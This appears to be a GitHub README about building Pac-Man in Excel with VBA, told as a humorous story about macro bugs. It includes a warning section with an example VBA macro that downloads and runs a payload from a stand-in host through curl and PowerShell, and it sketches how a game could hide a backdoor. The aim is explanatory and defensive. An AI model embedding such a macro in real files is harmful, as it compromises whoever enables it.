 # PacMan-On-Excel-
 Making Pac-Man in Excel was a wild ride of creativity, problem-solving, and accidental macro-bombing. It reminded me of the sheer versatility of Excel—and the importance of saving your work. If nothing else, it’s a fun story to tell.

![Screenshot 2025-01-14 234556](https://github.com/user-attachments/assets/52bb6182-e739-48cc-b16f-cd85c6daf741)



---

The Big Idea!
It started as a harmless experiment. I thought, "Hey, I've got some time and a head full of VBA (Visual Basic for Applications). Why not make something fun in Excel?" After all, it's not every day you get to combine retro gaming and spreadsheets. The plan was simple:
Build a grid to act as the game board.
Use VBA to move Pac-Man with arrow keys.
Add ghosts that chase Pac-Man (with basic AI, of course).
Score points by eating dots.

What could possibly go wrong?

---

Building the Game
Step 1: Setting the Stage
I created a 10x10 grid in Excel. Adjusted the column widths, and row heights, and made the cells look like a clean little game board. Pac-Man was a bright yellow emoji (🟡), and the ghosts were charming little 👻 emojis. The dots were simple dots (because, well, dots).
Step 2: Writing the VBA Code
This was the fun part. I whipped up macros for Pac-Man's movement:
Sub MovePacManUp()
    MovePacMan "UP"
End Sub

Sub MovePacManDown()
    MovePacMan "DOWN"
End Sub
Pac-Man zipped around the board flawlessly. I was starting to feel pretty smart.
Step 3: Adding the Ghosts
The ghosts were a bit trickier. They needed to move on their own, and ideally, they'd chase Pac-Man. I coded a basic AI that made them "smarter" (read: they sort of stumbled toward Pac-Man). The ghosts worked! Well, kind of. Sometimes they got stuck in a corner and had an existential crisis, but that's beside the point
The Macro Mayhem Begins (- _ -)
The "Let's Make It Better" Moment
Here's where things went off the rails. I thought, "Wouldn't it be cool if the ghosts moved faster as the score increased?" So, I added speed scaling. It worked fine at first. Pac-Man was zipping around, eating dots, and the ghosts got progressively faster. Too fast.
The Macro-Bomb
One tiny misstep in my timing logic, and the macros started overlapping. Ghosts were teleporting, dots were disappearing, and Pac-Man got stuck in a loop of infinite movement. Then the kicker: Excel froze.
I had unleashed a macro monster.
How This Could Go Very Wrong
Here's the thing about VBA macros: they're incredibly powerful, but with great power comes great responsibility - and great vulnerability. What started as a harmless game could, in the wrong hands, be turned into a Trojan horse. Here's how:
Embedding Malicious Code

VBA allows you to execute shell commands using Shell or CreateObject("WScript.Shell"). This means a malicious actor could embed commands to open a reverse shell, granting remote access to the victim's system.

Example of a malicious command:
Sub OpenShell()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "cmd.exe /c curl http://malicious-site.com/payload.exe | powershell.exe"
End Sub
This code could download and execute malicious files without the user even knowing.
2. Disguising Intent
The game's macros could be written to hide malicious functionality under the guise of "game logic." For example, a ghost's movement macro could secretly trigger commands to exfiltrate data or log keystrokes.

3. Exploiting Trust
Many users are too quick to enable macros when prompted by Excel. A game like this, sent as a "fun distraction," could lure someone into enabling macros, unknowingly compromising their system.

Theoretical Attack Scenario
Imagine you receive an email from a friend saying, "Check out this cool Pac-Man game I made in Excel!" Intrigued, you download it and enable macros. While you're playing, the hidden macros are:
Sending your system info to a remote server.
Opening a backdoor using PowerShell.
Logging your activity.

By the time you've realized something's off, the damage is done.
Lessons Learned (the Hard Way)
After a lot of Ctrl+Alt+Deleting and "End Task" tantrums, I managed to regain control. Here's what I learned:
Test Macros Incrementally: Adding too many moving parts without thorough testing is like juggling chainsaws - dangerous and messy.
Plan for Timing Conflicts: When macros trigger other macros, chaos can ensue. Double-check your logic.
Always Save Before Running Macros: I can't stress this enough. Save. Every. Single. Time.
Beware of What You Enable: Only enable macros from trusted sources. Double-check the code if you're unsure.

The Redemption Arc
I eventually fixed the timing issues and refined the ghost AI. The game now works like a charm. Pac-Man moves smoothly, ghosts are just smart enough to be annoying, and the score updates beautifully. Excel didn't even crash once during the final tests.
Was it worth the chaos? Absolutely. Watching Pac-Man munch dots in Excel is a joy I didn't know I needed.
Would I Recommend This?
If you've got some VBA skills and a sense of humor, go for it. Making a Pac-Man game in Excel is the perfect mix of geeky fun and frustration. But remember: macros are powerful tools. In the wrong hands, they're weapons.
Always verify macro-enabled files before opening them, and never blindly trust a file - even if it's disguised as a fun game.
